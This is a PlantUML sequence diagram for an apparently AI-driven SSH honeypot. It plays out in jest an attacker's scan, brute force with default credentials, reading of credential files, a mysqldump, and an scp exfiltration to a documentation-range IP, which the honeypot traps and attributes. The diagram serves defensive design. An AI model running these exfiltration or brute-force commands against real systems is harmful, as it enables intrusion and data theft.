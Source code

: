 @startuml CerberusMesh - Malicious Actor Sequence: Fuck Around and Find Out
!theme aws-orange
title "CerberusMesh: A Malicious Actor's Journey from Confidence to Despair 😈"

skinparam backgroundColor #F8F9FA
skinparam sequenceMessageAlign center
skinparam roundcorner 10

actor "Bad Actor" as attacker #FF6B6B
participant "Internet Scanner" as scanner #FF8E8E
participant "SSH Honeypot" as honeypot #4ECDC4
participant "AI Persona Engine" as ai_persona #96CEB4
participant "Behavioral Analyzer" as analyzer #45B7D1
participant "Cerberus Agent" as cerberus #FF9FF3
participant "MITRE Mapper" as mitre #FECA57
participant "ML Engine" as ml #8B5CF6
participant "Threat Intel" as intel #5F27CD
participant "Active Defense" as defense #E74C3C
participant "SOC Team" as soc #2ECC71

== Phase 1: Reconnaissance - "This looks easy..." ==

note over attacker
💭 "Time to find some easy targets.
This server looks vulnerable!"
end note

attacker -> scanner : Launch automated reconnaissance
activate scanner
scanner -> honeypot : Port scan (22, 80, 443, 3389, 1433...)
activate honeypot

honeypot -> analyzer : 🚨 **FIRST CONTACT DETECTED**
activate analyzer
analyzer -> cerberus : Initialize threat profile
activate cerberus

note right of analyzer
📊 Pattern Recognition:
- Scan signature identified
- Tool fingerprinting active
- Behavioral baseline established
end note

honeypot --> scanner : Respond with "vulnerable" services
scanner --> attacker : "Jackpot! Multiple open ports!"

== Phase 2: Initial Access - "Getting in was too easy..." ==

attacker -> honeypot : SSH brute force attack\n(admin:admin, root:password, etc.)
honeypot -> ai_persona : Activate "panicked_admin" persona
activate ai_persona

honeypot -> analyzer : Log brute force patterns
analyzer -> mitre : Map to T1110 (Brute Force)
activate mitre
mitre -> intel : Update attack timeline
activate intel

note right of mitre
🎯 MITRE ATT&CK Mapping:
- T1110: Brute Force
- T1078: Valid Accounts
- T1021.004: SSH
- T1083: File Discovery
end note

honeypot --> attacker : **SUCCESS**: "root:password123"

note over attacker
😈 "Too easy! This admin is an idiot.
Time to see what we have here..."
end note

== Phase 3: Exploration - The Trap Deepens ==

attacker -> honeypot : "whoami && id && pwd"
honeypot -> ai_persona : Trigger realistic responses

ai_persona -> honeypot : Generate authentic terminal output
note right of ai_persona
🎭 AI Persona Response:
"root
uid=0(root) gid=0(root) groups=0(root)
/root

Oh no! Someone's in the system!"
end note

honeypot -> analyzer : Track command patterns
analyzer -> ml : Feed behavioral data
activate ml
ml -> cerberus : Confidence score: 0.95 (definite attack)

attacker -> honeypot : "ls -la /home /root /etc/passwd"
honeypot -> ai_persona : Show tempting fake data

ai_persona -> honeypot : Present "sensitive" files
note left of honeypot
📁 Decoy Files Presented:
- /root/backups/database_passwords.txt
- /home/admin/crypto_wallets/
- /etc/shadow (fake but convincing)
- /var/www/customer_data.sql
end note

== Phase 4: Lateral Movement - Deeper Into The Web ==

attacker -> honeypot : "cat /root/backups/database_passwords.txt"
honeypot -> ai_persona : Serve poisoned credentials

ai_persona -> honeypot : Return fake DB credentials
note right of ai_persona
💀 Poisoned Data:
mysql_user: admin_prod
mysql_pass: SecureDB2024!
postgres_user: dba_master  
postgres_pass: P@ssw0rd!Enterprise

🎣 Attribution Beacon Embedded
end note

honeypot -> analyzer : Log data access patterns
analyzer -> mitre : Map to T1005 (Data from Local System)
mitre -> intel : Escalate threat classification

attacker -> honeypot : "mysql -u admin_prod -pSecureDB2024!"
honeypot -> ai_persona : Simulate database access

ai_persona -> honeypot : Present fake customer database
note over ai_persona
🍯 The Honey Gets Sweeter:
- Fake customer records (10,000+)
- Synthetic credit card data
- Bogus financial information
- Hidden tracking pixels
end note

== Phase 5: Data Exfiltration - The Point of No Return ==

attacker -> honeypot : "mysqldump customer_db > /tmp/stolen_data.sql"
honeypot -> cerberus : 🚨 **EXFILTRATION DETECTED**

cerberus -> defense : **ACTIVATE COUNTERMEASURES**
activate defense

note right of cerberus
🤖 Autonomous Decision:
Threat Level: CRITICAL
Confidence: 99.7%
Action: FULL DEFENSIVE RESPONSE
Attribution: PRIORITY
end note

defense -> honeypot : Deploy advanced tracking
defense -> intel : Generate real-time IOCs
defense -> soc : Alert security team
activate soc

attacker -> honeypot : "scp /tmp/stolen_data.sql user@203.0.113.45:/data/"
honeypot -> defense : **CAPTURE EXFIL INFRASTRUCTURE**

note right of defense
🎯 Counter-Attack Initiated:
- C2 server identified: 203.0.113.45
- Attribution data collected
- Network signatures generated
- Law enforcement package prepared
end note

== Phase 6: The Tables Turn - "Wait, what's happening?" ==

defense -> attacker : Beacon phones home with attribution data
defense -> intel : Update threat actor profile

note over intel
📸 Full Attribution Package:
- Source IP geolocation
- Tool fingerprints captured
- Attack infrastructure mapped
- Behavioral patterns documented
- Evidence chain established
end note

soc -> soc : Generate incident report
soc -> defense : Coordinate response actions

note right of soc
👥 SOC Response:
- Threat hunt initiated across network
- IOCs pushed to security tools
- Attribution shared with law enforcement
- Customer notification prepared
end note

== Phase 7: Realization - "Oh fuck..." ==

note over attacker
😱 "Why are my tools not working?
The data looks... weird?
Are those honeypot logs in the files?!"
end note

attacker -> honeypot : "ps aux | grep honey"
honeypot -> ai_persona : The jig is up response

ai_persona -> honeypot : "System compromised! Honeypot detected!"
note left of ai_persona
🎭 Final Performance:
"ALERT: Honeypot system detected!
You've been monitored and recorded.
All activities logged and reported.
Have a nice day! 😊"
end note

== Phase 8: Aftermath - Game Over ==

cerberus -> intel : Finalize threat profile
intel -> defense : Deploy network-wide protections
defense -> soc : Case closed with full attribution

note over soc
🏆 **MISSION ACCOMPLISHED**:
✅ Attack fully documented
✅ TTPs captured and analyzed  
✅ Attribution evidence collected
✅ Network defenses updated
✅ Threat intelligence enriched
✅ Zero actual damage sustained
end note

note over attacker #FF6B6B
💀 **GAME OVER** 💀
"I just spent 4 hours attacking
a honeypot and gave them everything
they needed to identify me and
improve their defenses.

I am not a smart criminal."
end note

deactivate scanner
deactivate honeypot
deactivate ai_persona
deactivate analyzer
deactivate cerberus
deactivate mitre
deactivate ml
deactivate intel
deactivate defense
deactivate soc

@enduml
